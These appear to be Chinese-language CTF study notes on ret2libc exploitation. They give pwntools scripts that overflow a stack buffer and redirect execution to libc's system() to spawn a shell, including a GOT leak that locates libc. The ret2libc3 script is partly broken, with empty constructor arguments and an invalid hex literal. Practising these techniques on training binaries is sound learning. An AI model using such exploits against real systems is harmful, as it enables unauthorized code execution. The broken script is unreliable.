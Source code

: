 - 篡改帧上自返回地址开始的一段区域为一系列gadget的地址，最终调用libc中的函数获取shell。

### ret2libc1

- 通过控制程序执行流执行到plt中的system函数，并在system函数上方两个字节处传递bin/sh

  ```python
  #!/usr/bin/env python
  from pwn import *
  
  sh = process('./ret2libc1')
  
  binsh_addr = 0x8048720
  system_plt = 0x08048460
  payload = flat(['a' * 112, system_plt, 'b' * 4, binsh_addr])
  sh.sendline(payload)
  
  sh.interactive()
  ```

  

### ret2libc2

- 没有/bin/sh字符串，控制程序执行令执行到gets方法，输入内容到BSS段，再执行system函数

  ```python
  ##!/usr/bin/env python
  from pwn import *
  
  sh = process('./ret2libc2')
  
  gets_plt = 0x08048460
  system_plt = 0x08048490
  pop_ebx = 0x0804843d
  buf2 = 0x804a080
  payload = flat(
      ['a' * 112, gets_plt, pop_ebx, buf2, system_plt, 0xdeadbeef, buf2])
  sh.sendline(payload)
  sh.sendline('/bin/sh')
  sh.interactive()
  
  ```

  

### ret2libc3

- 没有调用system函数，通过got表泄露puts函数地址，通过libc计算system函数偏移，从而获取system函数地址。

```python
from pwn import *

io = remote()
elf = ELF()
libc = ELF()

io.sendlineafter(b" :", str(elf.got["puts"]))
io.recvuntil(b" : ")
libcBase = int(io.recvuntil(b"\n", drop = True), 16) - libc.symbols["puts"]

success("libcBase -> {:#x}".format(libcBase))
# oneGadget = libcBase + 0x3a80c
# payload = flat(cyclic(60), oneGadget)
payload = flat(cyclic(60), libcBase + libc.symbols["system"], 0xdasdsad, next(elf.search(b"sh\x00")))
io.sendlineafter(b" :", payload)

```